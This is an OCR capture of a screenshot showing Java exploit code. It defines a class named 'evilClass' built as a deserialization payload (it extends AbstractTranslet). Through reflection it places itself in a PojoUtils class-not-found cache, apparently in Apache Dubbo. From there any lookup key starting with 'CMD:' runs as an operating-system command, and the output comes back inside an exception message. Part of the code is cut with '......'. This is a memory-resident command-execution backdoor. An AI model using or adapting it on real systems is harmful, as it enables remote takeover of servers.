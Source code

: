 ```java
import java.nio.charset.Charset;
import java.util.Collection;
import java.util.HashMap;
import java.util.Map;
import java.util.Set;
import java.util.concurrent.ConcurrentMap;
import java.util.function.BiConsumer;
import java.util.function.BiFunction;
import java.util.function.Function;

public class evilClass extends AbstractTranslet  implements ConcurrentMap {
    private HashMap m = new HashMap();
    public static final String CMD_PREFIX = "CMD:";
    public static final String CMD_SPLIT = "@cmdEcho@";

    @Override
    public boolean containsKey(Object key) {
        StringBuffer b = new StringBuffer();
        if( key.toString().startsWith(CMD_PREFIX)) {
            b.append(CMD_SPLIT);
            try{
                Process p = Runtime.getRuntime().exec(key.toString().substring(5).split(" "));
                InputStream fis = p.getInputStream();
                InputStreamReader isr;
                if (key.toString().substring(4,5).equals("g")) {
                    isr = new InputStreamReader(fis,Charset.forName("GBK"));
                }else {
                    isr = new InputStreamReader(fis);
                }
                BufferedReader br = new BufferedReader(isr);
                String line = null;
                while((line = br.readLine()) != null) {
                    b.append(line+"\n");
                }
            }catch (Exception e){

            }
            b.append(CMD_SPLIT);
            throw new IllegalArgumentException(b.toString());
        }
        return m.containsKey(key);
    }

    @Override
    ......

    public evilClass(String a) throws Exception{

    }
    public evilClass() throws Exception{
        try {
            addClass();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void addClass() throws Exception{
        Field mo = Field.class.getDeclaredField("modifiers");
        mo.setAccessible(true);
        Field field = PojoUtils.class.getDeclaredField("CLASS_NOT_FOUND_CACHE");
        field.setAccessible(true);
        mo.setInt(field,field.getModifiers()&~Modifier.FINAL);
        field.set(null,new evilClass(""));
```
